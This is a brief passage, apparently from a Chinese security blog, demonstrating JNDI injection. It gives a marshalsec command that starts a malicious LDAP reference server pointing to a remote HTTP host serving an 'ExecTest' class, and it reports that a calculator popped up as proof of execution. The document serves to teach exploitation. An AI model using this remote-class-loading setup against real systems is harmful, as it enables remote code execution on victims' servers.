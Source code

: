 ```java
}
```

使用marshalsec开启ladp服务，监听在1389端口

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.167.30.116/java/#ExecTest" 1389
```

![image-20200918145806799](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/image-20200918145806799.png)

demo程序执行完毕，计算器成功弹出

![image-20200918145737798](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/image-20200918145737798.png)